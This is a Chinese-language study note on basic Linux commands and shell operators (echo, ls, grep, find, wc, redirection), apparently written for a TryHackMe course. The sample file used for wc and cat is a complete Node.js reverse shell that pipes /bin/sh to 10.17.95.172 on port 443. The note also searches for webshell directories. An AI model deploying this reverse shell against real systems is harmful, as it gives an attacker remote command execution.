 ```yaml
---
index: "1"
---
```


# Linux基础-001


“Linux”这个名字实际上是基于UNIX（另一种操作系统）的一个操作系统内核，也可以说是基于linux内核的多种发行版的总称。由于Linux是开源的，Linux的变体有各种形状和大小-最适合系统的用途。

让我们从最简单的命令开开始：

| 命令    | 描述                      | 命令格式                                                            |
| :---- | :---------------------- | :-------------------------------------------------------------- |
| echo  | 输出我们能提供的任何文本            | echo [string]   or  echo  ['string'] <br> 查看当前环境变量路径：echo $path |
| woami | 输出我们当前登陆的用户名            | woami                                                           |
| ls    | 列出当前目录下的所有文件            | ls [option]                                                     |
| cd    | 更改目录路径                  | cd  [path]                                                      |
| pwd   | 打印当前所在目录                | pwd                                                             |
| find  | 按文件属性查找文件               | find [optin]                                                    |
| grep  | 搜索和过滤文件内容               | grep [string] [filename]                                        |
| wc    | 打印每个 <文件> 的换行符、单词和字节计数； | wc [option] <br> -c:字节，-m字符，-l换行, -w 单词                         |



## 基础命令



> [!NOTE]
> 以下内容不是照抄Tryhackme的学习过程笔记，是经过作者整理后，在本地主机上练习命令的结果

:::code-group
```bash [echo]
echo "Hello Tryhackme"
```
```bash [whoami]
whoami
```

```bash [cd]
cd ~/Project
```

```bash[pwd]
pwd
```
```sh [ls]
ls 
```
:::

:::code-group
```bash [wc 查看 'shell.js' 文件内的单词数，行数]
wc -w 
wc -l
```

```text [输出结果]
┌──(kali㉿bogon)-[~/Project]
└─$ wc -w shell.js 
34 shell.js
                                                                                                                                          
┌──(kali㉿bogon)-[~/Project]
└─$ wc -l shell.js 
12 shell.js
                                                                                                                                          
┌──(kali㉿bogon)-[~/Project]
└─$ 
```
:::

:::code-group
```bash [cat 命令查看 'shell.js' 文件内容]
cat shell.js
```

```js [shell.js]
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "10.17.95.172", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```
:::

##  文件查找
::: code-group

```bash [grep 查找'shell.js' 中包含 ‘10.17.95.172’的行 ]
grep "10.17.95.172" hello.jpg 
```

```bash [与ls结合查找指定文件] 
 ls | grep shell.js
```

:::

::: code-group

```bash [查找"/usr/share" 中名称包含webshell的目录] 
 sudo find /usr/share/ -type d  -name  *webshell*
```

```bash[查找"/usr/share" 中名称包含“shell”字段的文件]
 sudo find /usr/share/ -type f  -name  *shell*   
```
:::

## 运算符简介


| 符号  | 描述                                                        |
| --- | --------------------------------------------------------- |
| &   | 此操作符允许您在终端的后台运行命令（在命令末尾添加）                                |
| &&  | 此操作符允许您将多个命令组合成一行，在终端中使用。                                 |
| >   | 这个操作符是一个重定向器--意味着我们可以从一个命令中获取输出（比如使用cat输出一个文件）并将其定向到其他地方。 |
| >>  | 该操作符执行与`>`操作符相同的功能，但附加输出而不是替换（意味着没有内容被覆盖）。                |
|     |                                                           |

### 回答以下问题

- 如果我们想在后台运行一个命令，我们应该使用什么操作符？

```bash [bash]
&
```

- 如果我想用单词“password123”替换名为“passwords”的文件的内容，我的命令应该是什么？

```bash [bash]
echo password123 > passwords
```

- 现在，如果我想将“tryhackme”添加到这个名为“passwords”的文件中，但同时保留“passwords123”，我的命令会是什么？

```sh [bash]
echo tryhackme >> passwords
```

